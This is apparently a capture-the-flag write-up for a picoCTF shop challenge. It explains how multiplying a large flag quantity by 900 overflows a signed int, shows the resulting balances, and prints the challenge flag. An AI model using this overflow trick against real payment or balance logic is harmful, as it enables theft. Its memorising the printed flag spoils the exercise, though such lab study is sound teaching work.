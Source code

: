 # Memo
1. analyze  
focus on a range og integer.  
    - int() : -2147483647 ~ 2147483647

    - initial balance
    ```
    Balance: 1100
    ```
    - target
    ```c
    int total_cost = 0;
    total_cost = 900*number_flags;
    printf("\nThe final cost is: %d\n", total_cost);
    if(total_cost <= account_balance){
        account_balance = account_balance - total_cost;
        printf("\nYour current balance after transaction: %d\n\n", account_balance);
    }
    ```
    2147483647 / 900 = 2386092.9411111  

    - investigate a input around "2386092"  
account_balance : 1100(100 0100 1100)  

input : 2386092 (10 0100 0110 1000 1010 1100)  
input : 2386093 (10 0100 0110 1000 1010 1101)  
input : 2386094 (10 0100 0110 1000 1010 1110)  
input : 2386095 (10 0100 0110 1000 1010 1111)  

total_cost : 2147482800 (0111 1111 1111 1111 1111 1100 1011 0000)  
total_cost : 2147483700 (1000 0000 0000 0000 0000 0000 0011 0100)  
total_cost : 2147484600 (1000 0000 0000 0000 0000 0011 1011 1000)  
total_cost : 2147485500 (1000 0000 0000 0000 0000 0111 0011 1100)  

account_balance - total_cost
= 100 0100 1100 - 0111 1111 1111 1111 1111 1100 1011 0000
= 100 0100 1100 + 1000 0000 0000 0000 0000 0011 0101 0000

account_balance - total_cost
= 100 0100 1100 - 1000 0000 0000 0000 0000 0000 0011 0100
= 100 0100 1100 + 0111 1111 1111 1111 1111 1111 1100 1100

account_balance - total_cost
= 100 0100 1100 - 1000 0000 0000 0000 0000 0011 1011 1000
= 100 0100 1100 + 0111 1111 1111 1111 1111 1100 0100 1000

account_balance - total_cost
= 100 0100 1100 - 1000 0000 0000 0000 0000 0111 0011 1100
= 100 0100 1100 + 0111 1111 1111 1111 1111 1000 1100 0100


input : 2386092 (0b 10 0100 0110 1000 1010 1100)
```
These knockoff Flags cost 900 each, enter desired quantity
2386092

The final cost is: 2147482800
Not enough funds to complete purchase
```
input : 2386093 (0b 10 0100 0110 1000 1010 1101)
```
These knockoff Flags cost 900 each, enter desired quantity
2386093

The final cost is: -2147483596

Your current balance after transaction: -2147482600
```
input : 2386094 (10 0100 0110 1000 1010 1110)
```
These knockoff Flags cost 900 each, enter desired quantity
2386094

The final cost is: -2147482696

Your current balance after transaction: -2147483500
```
input : 2386095 (10 0100 0110 1000 1010 1111)
```
These knockoff Flags cost 900 each, enter desired quantity
2386095

The final cost is: -2147481796

Your current balance after transaction: 2147482896
```
Then I got enough money.

2. buy
```
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_68d16363}
```